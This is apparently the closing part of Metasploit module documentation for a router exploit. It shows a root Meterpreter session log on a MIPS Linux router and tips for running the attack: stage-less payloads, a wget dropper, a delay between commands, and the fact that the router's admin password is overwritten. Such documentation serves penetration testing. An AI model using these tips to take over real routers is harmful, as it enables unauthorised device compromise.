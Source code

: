 ```msf

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.1.254
OS           :  (Linux 3.10.90)
Architecture : mips
BuildTuple   : mipsel-linux-muslsf
Meterpreter  : mipsle/linux
meterpreter > pwd
/etc/boa
meterpreter > ls
Listing: /etc/boa
=================

Mode              Size     Type  Last modified              Name
----              ----     ----  -------------              ----
100755/rwxr-xr-x  9581     fil   2024-03-04 09:22:46 +0000  boa.conf
100755/rwxr-xr-x  2118     fil   2024-03-04 09:22:46 +0000  mime.types

meterpreter >
```
## Limitations
Staged payloads might core dump on the target, so use stage-less payloads when using the Linux Dropper target.
Another limitation is that the router has a very limited command set that can be leveraged,
so the only option is to use the `wget` command to drop an executable on the target to get a session.
Chained command lines using `;` do not work, so each command need to be executed in a separate request
with delay of 30 seconds of more to avoid session locking (see the `CMD_DELAY` option).

Last but not least, be mindful that the admin router password gets overwritten by the exploit,
resulting in a clear indicator of comprise.
